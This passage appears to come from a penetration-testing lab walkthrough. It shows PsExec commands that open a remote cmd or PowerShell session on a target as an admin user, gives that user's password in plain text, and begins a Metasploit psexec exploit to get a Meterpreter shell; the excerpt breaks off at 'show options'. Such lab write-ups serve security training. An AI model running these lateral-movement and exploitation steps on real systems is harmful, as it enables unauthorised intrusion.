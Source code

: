 first you need to open up **PowerShell**, in the same directory as **PsExec**. you can do this with the **cd** command. 

```PowerShell
# This will connect to the target and open up the command prompt
.\PsExec.exe \\192.168.10.1 -u A.George cmd

# This will open connect and open up PowerShell
.\PsExec.exe \\192.168.10.1 -u A.George powershell
```
> when you run this command, you will be prompted for a password, in this case its ethylene

```PowerShell
PS C:\Windows\system32> whoami
haiuadtargetnet\a.george
```
> as you can see we are login in as A.George who is an admin on the server

use other commands like **ipconfig** to see IP address information, if you are in **cmd** you will need to use **dir** to see what is in the folder if you are using **PowerShell** you can use **dir** and **ls** 


# 4.0 GETTING METERPRETER SHELL
---------

### 4.1 Metasploit 


From Kali Linux, run Metasploit by running this in the terminal

```bash
# starts metasploit framework
msfconsole

# Selecting the exploit
use exploit/windows/smb/psexec

# shows options
show options
```

>When we use show options this will be seen 
